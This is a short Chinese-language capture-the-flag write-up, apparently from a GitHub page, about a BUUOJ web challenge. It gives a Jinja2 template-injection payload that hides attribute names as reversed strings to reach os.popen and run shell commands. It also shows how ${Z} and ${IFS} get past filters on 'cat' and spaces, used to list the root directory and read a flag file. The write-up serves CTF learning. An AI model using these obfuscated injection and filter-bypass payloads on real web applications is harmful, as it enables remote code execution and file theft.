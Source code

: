 说明已经实现了 RCE, 接下来尝试读取文件

```python
http://eab7e4dc-d75a-4348-bf8f-18c210b29b46.node5.buuoj.cn:81/?name={{%27%27[%27__ssalc__%27[::-1]][%27__sesab__%27[::-1]][0][%27__sessalcbus__%27[::-1]]()[117][%27__tini__%27[::-1]][%27__slabolg__%27[::-1]][%27nepop%27[::-1]](%27ls%27).read()}}

# 把其中的指令替换为:
# ls, ls ~, ls /等
```

测试发现 `cat` 和 ` ` 被过滤了, 通过嵌入变量的方式可以绕过:

```
ca${Z}t${IFS}/
```

> 原理:  
> 1. `Z`：这里 `Z` 是一个未定义的变量，在Bash中，未定义的变量会被替换为空字符串。所以 `ca${Z}t` 就变成了 `cat`。
> 2. `IFS`： `IFS`是 Bash 的内部字段分隔符，默认值为空格、制表符、换行符。所以这里用 `${IFS}` 代替了空格，从而绕过了对空格的过滤。

接下来编辑 payload:

```bash
ls${IFS}/
```

![4-4.png](4-4.png)

继续调整:

```bash
ls${IFS}/fla${Z}g_in_h3r3_52daad
# 发现无结果, 说明是一个文件

ca${Z}t${IFS}/fla${Z}g_in_h3r3_52daad
```

![4-5.png](4-5.png)
